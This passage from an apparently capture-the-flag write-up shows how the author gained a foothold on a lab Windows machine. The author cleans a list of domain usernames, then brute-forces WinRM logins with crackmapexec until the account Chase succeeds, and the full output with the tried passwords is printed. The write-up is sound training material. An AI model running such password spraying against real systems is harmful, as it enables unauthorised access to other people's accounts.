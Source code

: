 ## **Foothold**

I saved the usernames in a files and cleaned it with the following command:

```terminal
$ cat users | cut -d " " -f 2                             
SUPPORTDESK\Administrator
SUPPORTDESK\Guest
SUPPORTDESK\DefaultAccount
SUPPORTDESK\WDAGUtilityAccount
SUPPORTDESK\None
SUPPORTDESK\Hazard
SUPPORTDESK\support
SUPPORTDESK\Chase
SUPPORTDESK\Jason
```

With that i used `crackmapexec` and brute forced smb again but didn't get any hit, but i tried with `winrm` and got a hit!

```terminal
$ crackmapexec winrm 10.10.10.149 -u users.lst -p pass.txt                                                                                         130 ⨯ 
SMB         10.10.10.149    5985   SUPPORTDESK      [*] Windows 10.0 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)                                      
HTTP        10.10.10.149    5985   SUPPORTDESK      [*] http://10.10.10.149:5985/wsman                                                                        
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\Administrator:$uperP@ssword                                                               
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\Administrator:Q4)sJu\Y8qz*A3?d                                                            
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\Administrator:stealth1agent                                                               
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\Guest:$uperP@ssword                                                                       
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\Guest:Q4)sJu\Y8qz*A3?d
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\Guest:stealth1agent
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\DefaultAccount:$uperP@ssword
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\DefaultAccount:Q4)sJu\Y8qz*A3?d
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\DefaultAccount:stealth1agent
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\WDAGUtilityAccount:$uperP@ssword
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\WDAGUtilityAccount:Q4)sJu\Y8qz*A3?d
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\WDAGUtilityAccount:stealth1agent
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\None:$uperP@ssword
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\None:Q4)sJu\Y8qz*A3?d
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\None:stealth1agent
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\Hazard:$uperP@ssword
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\Hazard:Q4)sJu\Y8qz*A3?d
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\Hazard:stealth1agent
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\support:$uperP@ssword
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\support:Q4)sJu\Y8qz*A3?d
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\support:stealth1agent
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SUPPORTDESK\Chase:$uperP@ssword
WINRM       10.10.10.149    5985   SUPPORTDESK      [+] SUPPORTDESK\Chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)
```
